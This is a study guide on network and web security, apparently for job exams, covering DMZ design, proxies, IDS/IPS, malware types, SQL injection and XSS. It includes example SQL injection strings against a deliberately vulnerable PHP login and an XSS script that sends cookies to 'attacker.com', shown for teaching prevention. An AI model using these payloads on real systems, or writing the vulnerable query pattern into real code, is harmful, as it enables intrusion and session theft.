

**The rule that makes a DMZ work:**

| Traffic direction | Policy |
|---|---|
| Internet → **DMZ** | ✅ **Allowed**, but only on the specific required ports (80, 443, 25, 53) |
| Internet → **Internal LAN** | ❌ **BLOCKED completely** |
| **DMZ → Internal LAN** | ⚠️ **Severely restricted** — only the exact application port needed (e.g. the web server to the database on port 3306), from the exact host |
| Internal LAN → DMZ | ✅ Allowed (for administration) |
| Internal LAN → Internet | ✅ Allowed (usually via a proxy) |

**Why the DMZ → LAN restriction is the critical rule:** it means that **even if the public web server is completely compromised**, the attacker is trapped in the DMZ and cannot reach the database, file server or workstations except through one tightly controlled path.

#### Single-firewall (three-legged) DMZ

A cheaper design uses **one firewall with three interfaces** — Internet, DMZ and LAN — with different rules on each. It is **less secure** (one device is a single point of failure and a single configuration mistake exposes everything) but common in smaller organisations.

#### What belongs in a DMZ

| In the DMZ ✅ | In the internal LAN ✅ |
|---|---|
| Web server / reverse proxy | **Database server** |
| Mail gateway (SMTP relay) | File server, Active Directory |
| External DNS server | Internal DNS, DHCP |
| FTP / SFTP server | Application servers holding sensitive data |
| VPN concentrator | Workstations, printers |
| WAF / load balancer | Backup servers, HR and finance systems |

> **The single most important design rule: the DATABASE SERVER NEVER goes in the DMZ.** It stays in the internal network, reachable only from the specific web/application server on the specific database port.

#### A worked design — a bank's network

> *"Bangladesh Bank has a client-server network communicating with a Mail Server, DNS server and Web server. Design the placement."*

```mermaid
flowchart TD
    NET["🌐 Internet"] --> RTR["Border Router<br/>+ anti-DDoS"]
    RTR --> FWE["External Firewall (NGFW)"]
    FWE --> DMZ2
    subgraph DMZ2["DMZ"]
        WAF["WAF"] --> WS["Web Server<br/>(internet banking front end)"]
        MS["Mail Gateway<br/>(anti-spam, anti-virus)"]
        DS["External DNS"]
        VPN["VPN Gateway"]
    end
    DMZ2 --> FWI["Internal Firewall"]
    FWI --> CORE
    subgraph CORE["Internal Network"]
        APP["Application Servers"] --> DB[("Core Banking Database")]
        AD2["Active Directory / LDAP"]
        MAILI["Internal Mail Store"]
        BR["Branch users / ATMs<br/>(separate VLANs)"]
    end
    CORE --> DR["Disaster Recovery Site<br/>(replication over an encrypted link)"]
```

**Key points to state:** public servers in the **DMZ**; the **core banking database in the innermost zone**, never internet-facing; **two firewalls from different vendors** if possible (defence in depth); **VLAN segmentation** of branches, ATMs and departments; **IDS/IPS** monitoring both segments; **all traffic encrypted** (TLS internally too); **MFA** for all administrative access; and a **SIEM** collecting logs from every device.

#### What is a proxy server?

A **proxy server** is an **intermediary between a client and a destination server**. The client's request goes to the proxy, and the proxy makes the request on the client's behalf and returns the result.

```mermaid
flowchart LR
    C["Client<br/>192.168.1.50"] --> P["PROXY SERVER"]
    P --> S["🌐 Web Server<br/>sees only the PROXY'S IP"]
    S --> P
    P --> C
```

| Type | Direction | Purpose |
|---|---|---|
| **Forward proxy** | Sits in front of the **clients** | Content filtering, caching, anonymity, access control for internal users going out |
| **Reverse proxy** | Sits in front of the **servers** | Load balancing, SSL termination, caching, hiding and protecting the real servers (**Nginx, HAProxy, Cloudflare**) |
| **Transparent proxy** | Intercepts without client configuration | ISP caching, corporate filtering |
| **Anonymous proxy / VPN** | Hides the client's identity | Privacy |

**Functions and benefits:** **content filtering** (block social media or malicious sites) · **caching** — frequently requested pages are served locally, saving bandwidth and time · **anonymity** — the destination sees only the proxy's IP · **access control and user authentication** · **detailed logging and monitoring** · **bandwidth control** · **security** — malware scanning and hiding the internal topology · **load balancing** (reverse proxy) · **bypassing geo-restrictions**.

**Limitations:** a **single point of failure** and potential bottleneck; it can **read all unencrypted traffic** (a privacy concern); cached content may become stale; and HTTPS inspection requires installing the proxy's certificate on every client.

#### Blacklisting vs Whitelisting

| Point | **Blacklisting** (deny-list) | **Whitelisting** (allow-list) |
|---|---|---|
| **Principle** | **"Deny what is known to be BAD; allow everything else"** | **"Allow ONLY what is known to be GOOD; deny everything else"** |
| **Default action** | **ALLOW** | **DENY** |
| **List contains** | Known malicious IPs, domains, applications, file hashes | Explicitly approved IPs, domains, applications |
| **Maintenance** | The list must be **constantly updated** as new threats appear | The list changes only when a legitimate new item is approved |
| **Flexibility for users** | **High** — anything not banned works | **Low** — anything not pre-approved is blocked |
| **Protects against zero-day / unknown threats?** | ❌ **NO** — an unknown threat is not on the list, so it is allowed | ✅ **YES** — an unknown item is not on the allow-list, so it is blocked |
| **False positives** | Few | **Many** — legitimate new software is blocked until approved |
| **Administrative effort** | Moderate but never-ending | **High** initially, lower afterwards |
| **User experience** | Convenient | Restrictive; users complain |
| **Best for** | General-purpose environments, public web filtering, spam and antivirus signatures | **High-security environments** — ATMs, POS terminals, SCADA/industrial control, card-data systems, servers with a fixed software set |
| **Examples** | Antivirus signature databases, spam blocklists, blocked-website lists | Application whitelisting (AppLocker), firewall allow-only rules, API key allow-lists |

> ### Which is more secure, and why?
> ### ✅ **WHITELISTING is significantly more secure.**
>
> **The reason is the default action.** Blacklisting operates on **"default allow"** — it can only stop threats that someone has already **identified, analysed and added to the list**. A brand-new virus, a **zero-day exploit**, or a custom piece of malware written specifically for your organisation is, by definition, **not on any blacklist**, so it passes straight through. Blacklisting is therefore always **reactive — permanently one step behind the attacker**.
>
> Whitelisting operates on **"default deny"**. Anything that is not explicitly approved is blocked **whether or not anyone has ever seen it before**. It is **proactive** and it closes the entire category of unknown threats at once.
>
> **The trade-off is usability and administration.** Whitelisting is impractical for a general office where users install varied software, and every new application requires an approval process. That is why the practical answer is: **use whitelisting wherever the set of legitimate items is small and stable** — servers, ATMs, POS terminals, industrial controllers, firewall rules for a DMZ — and **use blacklisting where flexibility is essential**, layered with other controls. Most mature security architectures use **both**: a whitelist for what may run, plus a blacklist of known-bad indicators as an extra net.

**Previous Year Question List from this Topic:**

- [Bangladesh Bank have client server and the communication with Mail Server, DNS server, Web server. Bangladesh Bank want to ensure the security using firewall on…](../written-answers/computer-network-security.md?plain=1#L1968)
- [What is Demilitarized Zone (DMZ) and sandbox for security test?](../written-answers/computer-network-security.md?plain=1#L2009)
- [DMZ and firewall placement in a diagram. (Approximate)](../written-answers/computer-network-security.md?plain=1#L2183)
- [What is Blacklist and Whitelist? Write down the difference between Black list and White list.](../written-answers/computer-network-security.md?plain=1#L2218)
- [What is DMZ in data center? Describe using diagram? Write the network devices in this system?](../written-answers/computer-network-security.md?plain=1#L2239)
- [Difference between blacklisting and whitelisting. Which is more secure and why?](../written-answers/computer-network-security.md?plain=1#L2290)
- [What is proxy server? Explain it.](../written-answers/computer-network-security.md?plain=1#L2368)
- [What is DMZ? Explain with appropriate figure.](../written-answers/computer-network-security.md?plain=1#L2469)


---

### IDS, IPS and Defence in Depth

#### IDS vs IPS

| Point | **IDS (Intrusion Detection System)** | **IPS (Intrusion Prevention System)** |
|---|---|---|
| **Action on detection** | **DETECTS and ALERTS** only | **DETECTS and BLOCKS** automatically |
| **Placement** | **Out-of-band** — receives a copy of the traffic (SPAN/TAP port) | **In-line** — all traffic passes **through** it |
| **Impact on traffic** | **None** — it cannot delay or drop anything | Adds latency; a failure can break the network |
| **Response** | Passive — a human must act | **Active** — the packet is dropped or the session reset |
| **Risk of false positives** | An annoyance (a needless alert) | **Serious** — legitimate traffic gets blocked |
| **Also called** | A network burglar **alarm** | A network **security guard** |

#### Detection methods

| Method | How it works | Detects unknown attacks? |
|---|---|---|
| **Signature-based** | Compares traffic against a database of known attack patterns | ❌ **No** — like an antivirus, it misses zero-days |
| **Anomaly-based** | Builds a baseline of "normal" and flags deviations | ✅ **Yes** — but produces more **false positives** |
| **Stateful protocol analysis** | Compares behaviour against expected protocol usage | ✅ Partly |
| **Hybrid** | Combines the above | ✅ Best practice |

#### Types by placement

| Type | Monitors |
|---|---|
| **NIDS/NIPS** (Network-based) | Traffic on a network segment |
| **HIDS/HIPS** (Host-based) | A single host's files, logs, processes and registry |

#### IDS strategy for a high-security environment

> *"As a cybersecurity analyst at a nuclear power plant, what IDS strategies and steps are required?"* — the same reasoning applies to a bank's core network or a national data centre.

```mermaid
flowchart TD
    A["1 . ASSET IDENTIFICATION<br/>map every system, especially the OT/SCADA network"] --> B["2 . NETWORK SEGMENTATION<br/>strictly separate IT from OT (Purdue model);<br/>use a DATA DIODE for one-way flow"]
    B --> C["3 . DEPLOY SENSORS<br/>NIDS at every segment boundary,<br/>HIDS on every critical server and controller"]
    C --> D["4 . BASELINE NORMAL BEHAVIOUR<br/>an industrial control network is highly predictable —<br/>anomaly detection works exceptionally well here"]
    D --> E["5 . TUNE the rules<br/>add protocol-specific signatures (Modbus, DNP3, IEC-104)<br/>and eliminate false positives"]
    E --> F["6 . CENTRALISE into a SIEM<br/>correlate IDS, firewall, host and physical-access logs"]
    F --> G["7 . 24×7 SOC MONITORING<br/>with a defined escalation path"]
    G --> H["8 . INCIDENT RESPONSE PLAN<br/>documented, rehearsed, with safety interlocks<br/>that a cyber incident cannot override"]
    H --> I["9 . CONTINUOUS REVIEW<br/>threat intelligence, red-team exercises, audits"]
```

**The critical points for a safety-critical plant:**
1. **Never place an IPS in-line on the safety/control network.** An IPS false positive that blocks a control command could cause a physical accident. **Use a passive IDS on OT networks**, and an IPS only on the corporate IT side.
2. **Air-gap or data-diode** the control network from the corporate network wherever possible.
3. **Anomaly detection is unusually effective in OT**, because industrial traffic is repetitive and deterministic — any new protocol, new device or unusual command stands out immediately.
4. Monitor for the specific hallmarks of **Stuxnet-class attacks**: unauthorised PLC programming, firmware changes, and USB device insertion.
5. **Physical security and USB control** — Stuxnet entered an air-gapped plant on a USB stick.
6. **Defence in depth**: firewalls, IDS, whitelisting, MFA, strict change control and vetted staff.

#### Defence in depth

**Defence in depth** is the principle of layering **multiple independent security controls**, so that the failure of any one does not compromise the whole system.

```mermaid
flowchart TD
    L1["1 . POLICIES, PROCEDURES & AWARENESS"] --> L2["2 . PHYSICAL SECURITY<br/>locks, guards, CCTV, mantrap"]
    L2 --> L3["3 . PERIMETER<br/>firewall, DMZ, IPS, anti-DDoS"]
    L3 --> L4["4 . NETWORK<br/>segmentation, VLANs, NAC, encryption"]
    L4 --> L5["5 . HOST<br/>patching, hardening, antivirus/EDR, host firewall"]
    L5 --> L6["6 . APPLICATION<br/>secure coding, WAF, input validation"]
    L6 --> L7["7 . DATA<br/>encryption at rest, DLP, backup, access control"]
```

**Previous Year Question List from this Topic:**

- [As a cybersecurity analyst at a nuclear power plant, what IDS strategies and steps are required to prevent cyberattacks?](../written-answers/computer-network-security.md?plain=1#L1864)
- [Let you procure a microfinance application and host it in your office's data centre. What kind of cyber-security threats should you be aware of and what steps w…](../written-answers/computer-network-security.md?plain=1#L250)


---

## Malware & Security Threats

### Malware — Types and Characteristics

**Malware** (**MAL**icious soft**WARE**) is any software **deliberately designed to damage, disrupt, steal from, or gain unauthorised access to** a computer system, network or user.

```mermaid
flowchart TD
    M["MALWARE"]
    M --> A["Virus"]
    M --> B["Worm"]
    M --> C["Trojan Horse"]
    M --> D["Ransomware"]
    M --> E["Spyware / Keylogger"]
    M --> F["Adware"]
    M --> G["Rootkit / Bootkit"]
    M --> H["Botnet / Bot"]
    M --> I["Logic Bomb"]
    M --> J["Backdoor"]
    M --> K["Cryptojacker"]
```

#### The main types

| Type | Definition | Key characteristic |
|---|---|---|
| **Virus** | Malicious code that **attaches itself to a host file or program** and spreads when that file is executed | **Needs a host file AND human action** to spread |
| **Worm** | **Standalone** malware that **self-replicates and spreads across networks automatically** | **No host file, NO human action needed** |
| **Trojan Horse** | Malware **disguised as legitimate, useful software** | **Does NOT self-replicate**; relies on the user installing it |
| **Ransomware** | **Encrypts the victim's files** and demands a ransom for the decryption key | Extortion; often spreads like a worm |
| **Spyware** | Secretly **monitors and reports** the user's activity | Stealth and surveillance |
| **Keylogger** | Records **every keystroke** | Captures passwords and card numbers |
| **Adware** | Displays unwanted advertisements | Often bundled with free software |
| **Rootkit** | Gains and hides **administrator/root-level** access | **Hides itself and other malware** from the OS and antivirus |
| **Bootkit** | A rootkit that infects the **boot sector / MBR / UEFI** | Loads **BEFORE the operating system**, so the OS cannot detect it |
| **Bot / Botnet** | Infected machines under an attacker's remote control | Used for **DDoS**, spam and mining |
| **Logic bomb** | Dormant code that triggers on a **condition** (a date, an employee's name being removed from payroll) | Often planted by an **insider** |
| **Backdoor** | A hidden way to bypass authentication | Gives persistent access |
| **Cryptojacker** | Secretly mines cryptocurrency using the victim's hardware | Steals **electricity and CPU**, not data |
| **Fileless malware** | Lives only in **memory** and uses legitimate tools (PowerShell, WMI) | Leaves **no file** for antivirus to scan |

#### Virus vs Worm vs Trojan — the key comparison

| Point | **Virus** | **Worm** | **Trojan Horse** |
|---|---|---|---|
| **Self-replicating?** | ✅ **Yes** | ✅ **Yes** | ❌ **NO** |
| **Needs a host file?** | ✅ **Yes** — it attaches to a program or document | ❌ **No** — it is standalone | ❌ No — it *is* the program |
| **Needs human action to spread?** | ✅ **Yes** — someone must run the infected file | ❌ **NO** — it spreads by itself | ✅ **Yes** — the user must install it |
| **How it spreads** | Infected files, USB drives, email attachments, downloads | **Network vulnerabilities**, email address books, open shares — automatically | **Deception** — disguised as a game, crack, utility or update |
| **Speed of spread** | Slow to moderate | **Extremely fast** — can span the globe in hours | Slow — one victim at a time |
| **Primary damage** | Corrupts or deletes files, corrupts the host program | **Consumes bandwidth and resources**, crashes networks; often carries a payload | **Opens a backdoor**, steals data, installs other malware |
| **Detection** | Antivirus signature on the infected file | Traffic anomaly, mass scanning behaviour | Behaviour analysis; it looks legitimate |
| **Analogy** | A **biological virus** — needs a host cell | A **parasite that moves on its own** | The **wooden horse of Troy** — a gift that hides soldiers |
| **Example** | Melissa, CIH/Chernobyl, ILOVEYOU (a worm/virus hybrid) | **Morris Worm, Code Red, SQL Slammer, Conficker, WannaCry, Stuxnet** | Zeus banking trojan, Emotet, fake antivirus, a pirated-software "crack" |

> ### "What is a Trojan Horse?"
> A **Trojan horse** is malware that **disguises itself as a legitimate or desirable program** to persuade the user to install it, and then performs malicious actions in the background.
>
> **Its one defining characteristic: a Trojan does NOT self-replicate.** Unlike a virus or worm, it cannot spread on its own — it depends entirely on **deceiving the user** into running it. That is precisely what makes it a *Trojan horse*: the danger is carried in voluntarily, through the front gate.
>
> **Common disguises:** a free game, a "cracked" or "activated" version of paid software, a fake antivirus or system optimiser, a fake Flash/codec update, a pirated movie's "player", or a malicious email attachment.
>
> **Types:** **Backdoor Trojan** (remote access — a RAT), **Banking Trojan** (steals credentials, e.g. Zeus), **Downloader** (fetches more malware), **Rootkit Trojan**, **DDoS Trojan**, **Ransom Trojan**, **Fake AV Trojan**.

#### Components of a computer virus

A virus generally has **three functional parts**:

| Component | Function |
|---|---|
| **1. Infection mechanism** (the **infection vector**) | The code that **finds new hosts and attaches** a copy of the virus to them — this is what makes it a *virus* |
| **2. Trigger** (the **logic bomb**) | The **condition** that decides *when* the payload fires — a date (Friday the 13th), a number of executions, or a specific user action |
| **3. Payload** | **What it actually does** — delete files, corrupt data, display a message, steal information, open a backdoor. The payload may be destructive or merely annoying |

*(A fourth part, the **concealment/stealth mechanism** — encryption, polymorphism, anti-debugging — is present in most modern viruses.)*

#### The four phases of a virus's life

```mermaid
flowchart LR
    A["1 . DORMANT phase<br/>idle, waiting for the trigger"] --> B["2 . PROPAGATION phase<br/>copies itself into other files/systems"]
    B --> C["3 . TRIGGERING phase<br/>the activating condition is met"]
    C --> D["4 . EXECUTION phase<br/>the payload runs"]
```

#### Ransomware

**Ransomware** encrypts the victim's files (or locks the entire system) and **demands a ransom payment — usually in cryptocurrency — for the decryption key**.

**How an attack unfolds:**
1. **Infection** — via a phishing attachment, an exploited RDP/VPN service, a drive-by download, or a software-supply-chain compromise.
2. **Reconnaissance and lateral movement** — the attacker quietly maps the network and escalates privileges over days or weeks.
3. **Exfiltration** — modern ransomware **steals a copy of the data first** (double extortion).
4. **Backup destruction** — shadow copies and reachable backups are deleted.
5. **Encryption** — files are encrypted, usually with AES for speed and RSA to protect the AES key.
6. **Ransom note** — a demand with a countdown timer.
7. **Extortion** — pay, or the data is published (**double extortion**) or customers are contacted (**triple extortion**).

**Famous examples:** **WannaCry (2017)** — a ransomware **worm** that used the EternalBlue SMB exploit to infect 230,000 computers in 150 countries in a day, including the UK's NHS · **NotPetya**, **Locky**, **Ryuk**, **LockBit**, **REvil**.

**Prevention and response**

| Measure | Detail |
|---|---|
| **Backups — the single most important control** | Follow the **3-2-1 rule** and keep at least one copy **offline/immutable**, because networked backups get encrypted too. **Test the restores.** |
| **Patch promptly** | WannaCry exploited a flaw Microsoft had patched **two months earlier** |
| **Email security & user training** | Most infections start with a phishing attachment |
| **Endpoint Detection and Response (EDR)** | Detects the mass-encryption behaviour and stops it mid-attack |
| **Network segmentation** | Confines the blast radius |
| **Least privilege + MFA** | Limits what compromised credentials can reach |
| **Disable RDP from the Internet**; use a VPN with MFA | RDP is a leading entry point |
| **Application whitelisting** | Prevents unknown executables from running |
| **An incident response plan**, rehearsed | Speed of isolation determines the damage |
| **Do NOT pay the ransom** | There is no guarantee of a key, it funds further crime, and many victims are attacked again |

#### Rootkit and bootkit

A **rootkit** is malware designed to obtain and **maintain privileged ("root") access while actively HIDING its own presence** and that of other malware, by subverting the operating system's own reporting.

| Type | Operates at |
|---|---|
| **User-mode rootkit** | Hooks application-level API calls |
| **Kernel-mode rootkit** | Inside the OS kernel — very powerful, very hard to detect |
| **Bootkit** | The **boot sector, MBR or UEFI firmware** — loads **BEFORE the OS**, so no OS-level tool can see it |
| **Hypervisor rootkit** | Runs the real OS inside a malicious virtual machine |
| **Firmware rootkit** | In BIOS/UEFI or device firmware — **survives a disk wipe and OS reinstall** |

> **A bootkit is a rootkit that infects the boot process.** Because it executes before the operating system and the antivirus, it can disable security software before it ever starts. Removing one usually requires **booting from clean external media**, and a firmware bootkit may require **reflashing the BIOS/UEFI**. **Secure Boot** in UEFI is the principal defence.

#### Other definitions

| Term | Definition |
|---|---|
| **Data exfiltration** | The **unauthorised transfer of data OUT of an organisation** — the "theft" stage of a breach. Carried out over HTTPS, DNS tunnelling, email, cloud storage or USB. Countered by **DLP (Data Loss Prevention)**, egress filtering, encryption and monitoring of outbound volumes |
| **Grayware / PUP** | **Potentially Unwanted Program** — software that is **not strictly malicious** but is unwanted: bundled toolbars, aggressive adware, trackers. *(Software downloaded and installed that is not malicious is a **PUP / grayware / legitimate software**, depending on intent.)* |
| **QR code** | **Quick Response code** — a 2-D barcode holding up to ~4,300 characters. **The security risk (Quishing):** a user cannot read a QR code with their eyes, so a malicious code can silently open a phishing site, trigger a payment or install an app. Attackers **paste fake QR stickers over real ones** on payment counters. *Always check the URL that the code resolves to before acting on it.* |
| **Botnet** | A network of compromised machines ("**zombies**") controlled remotely by a **botmaster** through a **command-and-control (C&C)** channel, used for DDoS, spam, credential stuffing and mining |
| **Spam** | **Unsolicited bulk email** — unwanted messages sent indiscriminately. *(The direct answer to "unsolicited email is called…" is **SPAM** — also known as junk mail.)* |

#### How malware spreads, and how to protect a computer

**Infection vectors:** email attachments and links · infected USB drives · drive-by downloads from compromised websites · pirated/cracked software · unpatched software vulnerabilities · malicious mobile apps · fake updates · network shares · supply-chain compromise of a legitimate update.

**Protection — a complete answer**

| Layer | Measures |
|---|---|
| **Software hygiene** | **Keep the OS and all software patched**; uninstall what you do not use; never install pirated software |
| **Antivirus / EDR** | Reputable, **always updated**, with real-time protection enabled |
| **Firewall** | Both the network firewall and the host firewall enabled |
| **Email and web** | Spam filtering, do not open unexpected attachments, hover before clicking, block risky file types |
| **Removable media** | **Disable autorun**; scan every USB device; restrict USB ports on sensitive machines |
| **Accounts** | Use a **standard (non-administrator) account** for daily work; **strong unique passwords** + a password manager; **MFA** everywhere |
| **Backups** | **3-2-1 rule**, with an offline copy; test the restores |
| **Network** | Segmentation, VPN on public Wi-Fi, DNS filtering, disable unused services and ports |
| **Browser** | Keep it updated, use an ad/script blocker, avoid untrusted sites |
| **Awareness** | **The user is the last line of defence** — training is the highest-return investment |
| **Monitoring & response** | Logging, alerting, and a tested incident-response plan |

**Two antivirus products to name:** **Kaspersky, Norton, Bitdefender, Avast, McAfee, ESET NOD32, Microsoft Defender, Trend Micro, AVG**.

> **Worked scenario — "your computer is infected by a virus and it has also copied itself to six neighbouring computers":** the immediate response is (1) **isolate** — disconnect all seven machines from the network to stop further spread; (2) **identify** the malware with an updated scanner from clean rescue media; (3) **eradicate** — clean or, for anything with rootkit behaviour, **wipe and reinstall**; (4) **restore** data from a known-clean backup; (5) **patch** the vulnerability that allowed the spread and change all passwords; (6) **monitor** for reinfection; and (7) **review** — how did it get in, and what control failed? The fact that it spread to six machines by itself indicates **worm behaviour**, so the network vulnerability, not just the files, must be fixed.

**Previous Year Question List from this Topic:**

- [Differentiate between a Computer Virus and a Computer Worm based on how they spread and replicate across host networks.](../written-answers/computer-network-security.md?plain=1#L2519)
- [What is exfiltration?](../written-answers/computer-network-security.md?plain=1#L2541)
- [Software downloaded from internet and installed that is not malicious is called?](../written-answers/computer-network-security.md?plain=1#L2565)
- [একটি Virus ও Ransomware এর নাম লিখ?](../written-answers/computer-network-security.md?plain=1#L2580)
- [What is Trojan horse virus?](../written-answers/computer-network-security.md?plain=1#L2594)
- [Computer এর Virus কি?](../written-answers/computer-network-security.md?plain=1#L2618)
- [Trojan Horse কি?](../written-answers/computer-network-security.md?plain=1#L2642)
- [What is QR code? What is Rootkit and bootkit?](../written-answers/computer-network-security.md?plain=1#L2660)
- [Suppose your computer system is attack by a VIRUS and it's also copy into the six neighbor computer. Then it encrypts your all data in your all data in your sys…](../written-answers/computer-network-security.md?plain=1#L2686)
- [‘Trojan Horse’ এর একটি বৈশিষ্ট্য লিখুন।](../written-answers/computer-network-security.md?plain=1#L2715)
- [Explain: Worm, Botnet, Ransomware and Trojan horse.](../written-answers/computer-network-security.md?plain=1#L2727)
- [Malware বলতে কী বুঝানো হয়? উদাহরণসহ সংক্ষেপে বর্ণনা করুন।](../written-answers/computer-network-security.md?plain=1#L2759)
- [Define component of computer virus.](../written-answers/computer-network-security.md?plain=1#L2784)
- [দুটি এন্টিভাইরাস সফটওয়্যার এর নাম লিখ।](../written-answers/computer-network-security.md?plain=1#L2810)
- [কম্পিউটার ভাইরাস, ওয়ার্ম এবং ট্রোজান হর্স এর মধ্যে পার্থক্য লিখ।](../written-answers/computer-network-security.md?plain=1#L2829)
- [Write down possible threats to a computer systems and how to provide security?](../written-answers/computer-network-security.md?plain=1#L2854)
- [What protection do you provide for your computer from malware?](../written-answers/computer-network-security.md?plain=1#L2899)
- [Describe five types of malware threats and mention five known countermeasures.](../written-answers/computer-network-security.md?plain=1#L2932)
- [Define ransomware attack.](../written-answers/computer-network-security.md?plain=1#L2977)
- [c) What is a computer virus? Name of the two software that are used to prevent the virus.](../written-answers/computer-network-security.md?plain=1#L3001)
- [Unsoliciated email is called?](../written-answers/computer-network-security.md?plain=1#L5693)


---

## Web Security Vulnerabilities

### SQL Injection

**SQL Injection (SQLi)** is a web-application vulnerability in which an attacker **inserts malicious SQL code into an input field**, causing the application to execute **unintended database commands**.

> **The root cause:** the application **builds its SQL query by concatenating user input directly into the query string**, so the database cannot distinguish between the developer's *code* and the attacker's *data*.

#### How it works

**The vulnerable code:**

```php
$user = $_POST['username'];
$pass = $_POST['password'];
$sql = "SELECT * FROM users WHERE username = '$user' AND password = '$pass'";
```

**Normal use:** the user enters `rahim` / `secret123`:
```sql
SELECT * FROM users WHERE username = 'rahim' AND password = 'secret123'
```

**The attack:** the attacker enters `' OR '1'='1' --` as the username:
```sql
SELECT * FROM users WHERE username = '' OR '1'='1' --' AND password = ''
```

- `' ` closes the developer's quote.
- `OR '1'='1'` is **always TRUE**, so the WHERE clause matches **every row**.
- `--` comments out the rest of the query, **including the password check**.

> **Result: the attacker logs in as the first user in the table — usually the administrator — without knowing any password.**

```mermaid
flowchart LR
    A["Attacker types<br/>' OR '1'='1' --<br/>into the login form"] --> B["The application CONCATENATES<br/>it into the SQL string"]
    B --> C["The database receives a query whose<br/>WHERE clause is always TRUE"]
    C --> D["❌ Authentication BYPASSED<br/>— logged in as admin"]
```

#### Types of SQL injection

| Type | Description |
|---|---|
| **In-band — Error-based** | Deliberately causes database errors that leak table and column names |
| **In-band — UNION-based** | Uses `UNION SELECT` to append the attacker's own query results to the legitimate output |
| **Blind — Boolean** | The page gives no error, so the attacker asks true/false questions and watches how the page changes |
| **Blind — Time-based** | Uses `SLEEP(5)` and measures the response delay to extract data one bit at a time |
| **Out-of-band** | Makes the database send data to the attacker's server via DNS or HTTP |
| **Second-order** | The payload is stored harmlessly and executes later when another query uses it |

#### What an attacker can achieve

1. **Authentication bypass** — log in as any user without a password.
2. **Data theft** — dump the entire customer, card or password table.
3. **Data modification** — change balances, marks, prices or privileges.
4. **Data destruction** — `'; DROP TABLE users; --`.
5. **Privilege escalation** — make their own account an administrator.
6. **Reading local files** on the database server.
7. **Remote command execution** (e.g. `xp_cmdshell` on SQL Server) — leading to **full server compromise**.
8. **Denial of service** through expensive queries.

#### Prevention of SQL injection — the complete answer

| # | Countermeasure | Explanation |
|---|---|---|
| **1** | **Parameterised queries / Prepared statements** | ⭐ **THE definitive fix.** The SQL structure is sent to the database **first**, and the user data is supplied **separately as a parameter**, so it can **never be interpreted as code** — no matter what it contains |
| **2** | **Stored procedures** (written safely, without dynamic SQL inside) | The query structure is fixed in the database |
| **3** | **Input validation — whitelisting** | Accept only the expected format (a numeric ID must be digits only). **Whitelist** what is allowed; do not merely blacklist bad characters |
| **4** | **Escaping special characters** | A weak, last-resort fallback — **never rely on it alone**; escaping rules differ per database and are easy to get wrong |
| **5** | **Least privilege for the database account** | The web application's DB user should have **SELECT/INSERT/UPDATE only** on the specific tables it needs — **never `DROP`, never `db_owner`, never `sa`/`root`** |
| **6** | **Use an ORM** (Hibernate, Entity Framework, Eloquent, Django ORM) | These parameterise by default, though raw-SQL escape hatches must still be used carefully |
| **7** | **Generic error messages** | Never show SQL errors to the user — they hand the attacker the schema. Log the detail server-side |
| **8** | **Web Application Firewall (WAF)** | Detects and blocks known injection patterns — defence in depth, **not a substitute for fixing the code** |
| **9** | **Regular security testing** | Static analysis (SAST), dynamic scanning (DAST), penetration testing, code review |
| **10** | **Keep the DBMS and libraries patched**, and disable dangerous features | e.g. disable `xp_cmdshell` |

**The secure version of the earlier code:**

```php
// PHP with PDO — parameterised
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->execute([$user, $passHash]);
```
```java
// Java JDBC — PreparedStatement
PreparedStatement ps = conn.prepareStatement(
    "SELECT * FROM users WHERE username = ? AND password = ?");
ps.setString(1, user);
ps.setString(2, passHash);
ResultSet rs = ps.executeQuery();
```

> Now, if the attacker enters `' OR '1'='1' --`, the database searches for a user **literally named** `' OR '1'='1' --` — finds nobody — and the login fails. The payload is treated as **data, never as code**.

**Previous Year Question List from this Topic:**

- [Describe the SQL Injection and Cross-Site Scripting (XSS) web security threats and suggest preventive measures for each.](../written-answers/computer-network-security.md?plain=1#L3028)
- [Explain the vulnerability of SQL Injection. How can it be prevented?](../written-answers/computer-network-security.md?plain=1#L3080)
- [What is Cross site script and SQL injection?](../written-answers/computer-network-security.md?plain=1#L3119)
- [What is SQL Injection? How to Prevent against SQL Injection Attacks?](../written-answers/computer-network-security.md?plain=1#L3208)
- [What is SQL Injection attack? How it launched?](../written-answers/computer-network-security.md?plain=1#L3330)
- [Write two differences between SQL Injection and cross site scripting (XSS).](../written-answers/computer-network-security.md?plain=1#L3398)
- [What is SQL injection? How to prevent it?](../written-answers/computer-network-security.md?plain=1#L3423)
- [Write down the counter measure of SQL injection attack.](../written-answers/computer-network-security.md?plain=1#L3487)
- [What is SQL Injection? How can we protect web Application from SQL Injection attack?](../written-answers/computer-network-security.md?plain=1#L3526)
- [What is SQL injection? How many ways to prevent it?](../written-answers/computer-network-security.md?plain=1#L3565)
- [What is DDoS and SQL Injection attack?](../written-answers/computer-network-security.md?plain=1#L678)


---

### Cross-Site Scripting (XSS) and CSRF

#### Cross-Site Scripting (XSS)

**XSS** is a vulnerability that allows an attacker to **inject malicious client-side scripts (usually JavaScript) into a web page that is then viewed by OTHER users**. The victim's browser executes the script **because it appears to come from a trusted site**.

> **The root cause:** the application **displays user-supplied input without properly encoding it**, so the browser interprets the input as **HTML/JavaScript code** rather than as text.

#### The three types of XSS

| Type | Where the payload lives | How it reaches the victim |
|---|---|---|
| **Stored (Persistent) XSS** | **Saved in the server's database** — in a comment, profile, forum post or product review | **Every user who views that page** is attacked. **The most dangerous type** |
| **Reflected (Non-persistent) XSS** | **In the URL / request**, reflected straight back in the response | The victim must be **tricked into clicking a crafted link** |
| **DOM-based XSS** | Entirely **in the client-side JavaScript** — the payload never reaches the server | The page's own script writes untrusted data into the DOM |

#### A worked example

A comment box saves whatever the user types and displays it to everyone. The attacker posts:

```html
<script>
  fetch('https://attacker.com/steal?c=' + document.cookie);
</script>
```

**What happens:** every subsequent visitor's browser **executes that script** in the context of the trusted site, and **sends their session cookie to the attacker**, who can then hijack their session.

```mermaid
flowchart TD
